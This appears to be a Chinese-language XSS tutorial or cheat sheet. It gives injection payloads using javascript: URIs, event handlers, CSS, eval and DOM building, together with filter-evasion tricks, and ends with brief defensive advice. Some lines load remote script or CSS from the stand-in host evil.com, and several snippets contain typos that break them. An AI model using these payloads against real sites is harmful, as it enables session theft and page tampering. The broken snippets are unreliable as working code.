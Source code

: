 #### 示例
1.正常注入（sec,javascript) 
```
<img src="javascript:alert(/xss/)" width=100 />   
```
2.事件注入（onerror、onclick)
```
<img src="#" onerror="javascript:alert(/xss/)" />

<div onclick="javascript:alert(/xss/)"></div> 
```
3.通过css构造(background-img:url、expression、link-href、@import)
```
<div style="background-image:url(javascript:alert(xcss'));width:expression(alert('xss'))"></div>
<style>body{background-image:url("javascript:alert('xss')")}</style>
<link rel="stylesheet" href="http://www.evil.com/attack.css">
<style>@import 'javascript:alert('xss')'</style>
```
4.通过Javascript函数(eval()函数、ASCII编码)
```
<script>eval("alert('xss')")</script>
<img src="javascript:eval(String.fromaCharCode(97,108,123,34,45))" />
```
5.基于DOM型创建（有字数限制的输入框）
```
<script>z="document."</script>
<script>z=z+"write"</script>
<script>z=z+"alert"</script>
<script>z=z+"/xss/"</script>
<script>z=z+");"</script>
<script>eval(z)</script>
```
6.基于DOM型创建(创建节点)
```
var a = document.createElement('script')
a.src='http://www.evil.com/css.js'
document.getElementsByTagName('head')[o].appendChild(s)
```

#### XSS构造
- 通过html属性构造：src,lowsrc,dynsrc,bgsound,background,action,href,value...
- 通过html事件构造：onclick,onerror,onmouseover
- 通过css构造：@import,background-image:url,expression(IE)
- 通过javascript构造：javascript:eval()
- 基于DOM：document.write(),node.innerHTML,document.createElement()
- 注入代码变形构造：加空格、回车、Tab、\、\0、加注释、单引号、不用引号、用ASCII转码、转大小写、转全角

#### XSS的防御
- 避免使用客户端数据，尽量服务端生成
- javascript变量输出时先编码
- XSS过滤(js-css,http://jsxss.com)
- CSP(content security policy):通过在http响应头中加入相关指令告知浏览器，被保护页面仅允许加载和执行指令中限制的内容，不满足的资源与内容不执行或被客户端阻断

